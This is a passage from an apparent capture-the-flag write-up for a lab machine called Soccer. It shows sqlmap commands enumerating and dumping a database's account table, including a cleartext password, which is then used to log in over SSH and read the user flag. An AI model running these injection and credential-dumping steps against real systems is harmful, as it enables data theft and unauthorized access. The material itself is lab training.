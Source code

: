 Now the tables:

```
$ sudo python sqlmap.py -u "http://localhost:8081/?id=1" -p 'id' --dbms='MySQL' --technique="UB" --level 5 --risk 3 -D soccer_db --tables
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

And now the columns:

```
$ sudo python sqlmap.py -u "http://localhost:8081/?id=1" -p 'id' --dbms='MySQL' --technique="UB" --level 5 --risk 3 -D soccer_db -T accounts --columns
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| ema      |
| email    | varchar(40) |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+

```

Now Dump the columns:

```

$ sudo python sqlmap.py -u "http://localhost:8081/?id=1" -p 'id' --dbms='MySQL' --technique="UB" --level 5 --risk 3 -D soccer_db -T accounts -C email,password,username --dump
[3 entries]
+-------------------+----------------------+----------+
| email             | password             | username |
+-------------------+----------------------+----------+
| player@player.htb | PlayerOftheMatch2022 | player   |
| <blank>           | <blank>              | <blank>  |
| <blank>           | <blank>              | <blank>  |
+-------------------+----------------------+----------+

```

as you can see we have the username `player` that has the password `PlayerOftheMatch2022`

### Login with SSH

```

$ ssh player@soccer.htb
password: PlayerOftheMatch2022

player@soccer:~$ ifconfig && id && cat user.txt
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.194  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:b062  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:b062  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:b0:62  txqueuelen 1000  (Ethernet)
        RX packets 183783  bytes 25905701 (25.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 185041  bytes 60124243 (60.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
```